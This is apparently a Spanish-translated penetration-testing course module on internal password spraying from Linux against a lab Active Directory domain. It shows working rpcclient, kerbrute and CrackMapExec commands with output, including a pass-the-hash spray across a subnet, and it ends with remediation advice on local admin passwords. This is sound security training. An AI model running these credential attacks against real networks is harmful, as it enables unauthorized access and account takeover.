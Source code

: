 # Pulverización de contraseña interna: de Linux

---

Ahora que hemos creado una lista de palabras utilizando uno de los métodos descritos en las secciones anteriores, es hora de ejecutar nuestro ataque. Las siguientes secciones nos permitirán practicar la pulverización de contraseñas desde los hosts de Linux y Windows. Este es un enfoque clave para nosotros, ya que es una de las dos vías principales para obtener credenciales de dominio para el acceso, pero que también debemos proceder con cautela.

---

## Rociación de contraseña interna de un host de Linux

Una vez que hemos creado una lista de palabras utilizando uno de los métodos que se muestran en la sección anterior, es hora de ejecutar el ataque.`Rpcclient`es una excelente opción para realizar este ataque desde Linux. Una consideración importante es que un inicio de sesión válido no es aparente inmediatamente con`rpcclient`, con la respuesta`Authority Name`indicando un inicio de sesión exitoso. Podemos filtrar intentos de inicio de sesión no válidos de`grepping`para`Authority`En la respuesta. La siguiente línea de un enlace (adaptado de[aquí](https://www.blackhillsinfosec.com/password-spraying-other-fun-with-rpcclient/)) se puede usar para realizar el ataque.

#### Usando una línea de una línea de un ataque para el ataque

  Pulverización de contraseña interna: de Linux

```shell-session
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

Intentemos esto contra el entorno objetivo.

  Pulverización de contraseña interna: de Linux

```shell-session
xnoxos@htb[/htb]$ for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done

Account Name: tjohnson, Authority Name: INLANEFREIGHT
Account Name: sgage, Authority Name: INLANEFREIGHT
```

También podemos usar`Kerbrute`para el mismo ataque que se discutió anteriormente.

#### Usando Kerbrute para el ataque

  Pulverización de contraseña interna: de Linux

```shell-session
xnoxos@htb[/htb]$ kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 02/17/22 - Ronnie Flathers @ropnop

2022/02/17 22:57:12 >  Using KDC(s):
2022/02/17 22:57:12 >  	172.16.5.5:88

2022/02/17 22:57:12 >  [+] VALID LOGIN:	 sgage@inlanefreight.local:Welcome1
2022/02/17 22:57:12 >  Done! Tested 57 logins (1 successes) in 0.172 seconds
```

Existen varios otros métodos para realizar la pulverización de contraseñas desde Linux. Otra gran opción es usar`CrackMapExec`. La herramienta siempre versátil acepta un archivo de texto de nombres de usuario que se ejecutará contra una sola contraseña en un ataque de pulverización. Aquí estamos Grep por`+`Para filtrar las fallas de inicio de sesión y perfeccionar solo intentos de inicio de sesión válidos para asegurarnos de que no nos perdamos nada desplazándonos a través de muchas líneas de salida.

#### Uso de fallas de inicio de sesión de crackmapexec y filtrado

  Pulverización de contraseña interna: de Linux

```shell-session
xnoxos@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\avazquez:Password123 
```

Después de obtener uno (¡o más!) Hits con nuestro ataque de pulverización de contraseña, luego podemos usar`CrackMapExec`para validar las credenciales rápidamente contra un controlador de dominio.

#### Validando las credenciales con CrackMapexec

  Pulverización de contraseña interna: de Linux

```shell-session
xnoxos@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\avazquez:Password123
```

---

## Reutilización de contraseña del administrador local

La pulverización interna de contraseña no solo es posible con cuentas de usuario de dominio. Si obtiene acceso administrativo y la contraseña de contraseña NTLM o la contraseña de ClearText para la cuenta de administrador local (u otra cuenta local privilegiada), esto se puede intentar en múltiples hosts en la red. La reutilización de contraseña de la cuenta del administrador local está muy extendido debido al uso de imágenes de oro en implementaciones automatizadas y la facilidad de gestión percibida al hacer cumplir la misma contraseña en múltiples hosts.

CrackMapexec es una herramienta útil para intentar este ataque. Vale la pena apuntar a hosts de alto valor como`SQL`o`Microsoft Exchange`Servidores, ya que es más probable que un usuario altamente privilegiado inicie sesión o tenga sus credenciales persistentes en la memoria.

Cuando se trabaja con cuentas de administrador local, una consideración es la reutilización de contraseña o los formatos de contraseña comunes en todas las cuentas. Si encontramos un host de escritorio con la contraseña de cuenta de administrador local establecida en algo único como`$desktop%@admin123`, podría valer la pena intentar`$server%@admin123`contra servidores. Además, si encontramos cuentas de administrador locales no estándar como`bsmith`, podemos encontrar que la contraseña se reutiliza para una cuenta de usuario de dominio con nombre similar. El mismo principio puede aplicarse a las cuentas de dominio. Si recuperamos la contraseña para un usuario nombrado`ajones`, vale la pena probar la misma contraseña en su cuenta de administración (si el usuario tiene una), por ejemplo,`ajones_adm`, para ver si están reutilizando sus contraseñas. Esto también es común en situaciones de confianza de dominio. Podemos obtener credenciales válidas para un usuario en el dominio A que sean válidos para un usuario con el mismo nombre de usuario o similar en el dominio B o viceversa.

A veces solo podemos recuperar el hash NTLM para la cuenta de administrador local de la base de datos SAM local. En estos casos, podemos rociar el hash NT en una subred completa (o subredes múltiples) para buscar cuentas de administrador local con la misma contraseña establecida. En el siguiente ejemplo, intentamos autenticarnos con todos los hosts en la red A /23 utilizando la cuenta de administrador local incorporada NT hash recuperado de otra máquina. El`--local-auth`Flag le dirá a la herramienta solo que intente iniciar sesión una vez en cada máquina, lo que elimina cualquier riesgo de bloqueo de cuenta.`Make sure this flag is set so we don't potentially lock out the built-in administrator for the domain`. De manera predeterminada, sin el conjunto de opciones de Auth Local, la herramienta intentará autenticarse usando el dominio actual, lo que podría dar lugar rápidamente a los bloqueos de la cuenta.

#### Rociación de administrador local con crackmapexec

  Pulverización de contraseña interna: de Linux

```shell-session
xnoxos@htb[/htb]$ sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +

SMB         172.16.5.50     445    ACADEMY-EA-MX01  [+] ACADEMY-EA-MX01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB         172.16.5.25     445    ACADEMY-EA-MS01  [+] ACADEMY-EA-MS01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB         172.16.5.125    445    ACADEMY-EA-WEB0  [+] ACADEMY-EA-WEB0\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
```

La salida anterior muestra que las credenciales eran válidas como administrador local en`3`sistemas en el`172.16.5.0/23`subred. Entonces podríamos avanzar para enumerar cada sistema para ver si podemos encontrar algo que ayude a promover nuestro acceso.

Esta técnica, aunque efectiva, es bastante ruidosa y no es una buena opción para ninguna evaluación que requiere sigilo. Siempre vale la pena buscar este problema durante las pruebas de penetración, incluso si no es parte de nuestro camino para comprometer el dominio, ya que es un problema común y debe destacarse para nuestros clientes. Una forma de remediar este problema es usar la herramienta gratuita de Microsoft.[Solución de contraseña de administrador local (vueltas)](https://www.microsoft.com/en-us/download/details.aspx?id=46899)Para que Active Directory administre las contraseñas de administrador local y aplique una contraseña única en cada host que gira en un intervalo establecido.